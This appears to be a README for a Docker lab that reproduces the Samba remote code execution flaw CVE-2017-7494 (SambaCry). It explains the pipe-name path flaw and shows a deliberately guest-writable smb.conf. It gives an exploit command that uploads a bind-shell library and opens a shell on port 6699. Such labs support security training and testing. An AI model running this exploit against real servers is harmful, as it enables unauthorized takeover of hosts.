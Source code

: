 # Samba Authenticated RCE (CVE-2017-7494, Aka SambaCry)

[中文版本(Chinese version)](README.zh-cn.md)

Samba is the standard Windows interoperability suite of programs for Linux and Unix, it provides secure, stable and fast file and print services for all clients using the SMB/CIFS protocol.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017–7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

## Environment Setup

Execute following commands to start a Samba server 4.6.3:

```
docker compose up -d
```

## Principle

Reference to [SambaCry RCE Exploit](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c):

> Microsoft Remote Procedure Call (RPC) is a powerful technology for creating distributed client/server programs. RPC is an interprocess communication technique that allows client and server software to communicate.
>
> MSRPC protocol allows to connect to a named pipe from remote destination. When trying to open a pipe using MSRPC on Samba, the server verifies the validity of the pipe name using the internal function `is_known_pipename()`.
>
> An external RPC server can be set using the 'rpc_server' variable inside smb.conf and then it will handle the pipe request.
>
> The function `is_known_pipename()` doesn’t check that the pipe is valid, this allows to use '/' to insert a full path of an arbitrary library.

The exploitation requirements:

- An anonymous writeable server or an authenticated Samba account
- A known path of the writeable sharing directory

See also:

 - https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
 - https://github.com/opsxcq/exploit-CVE-2017-7494
 - http://bobao.360.cn/learning/detail/3900.html

## Exploit

Samba config ( you can find [here](smb.conf) ) of our target server:

```
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Use `smbclient` to test connecting:

```
smbclient //your-ip/myshare -N
```

![](02.png)

If you got connection error, please check your network, especially port 445.

Using <https://github.com/opsxcq/exploit-CVE-2017-7494> to exploit the server:

```
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

Successful execute commands:

![](01.png)

Please note that, metasploit's `exploit/linux/samba/is_known_pipename` is tested failed since XX(I don't know) version, and I am really sure that it works on Jun 2017.
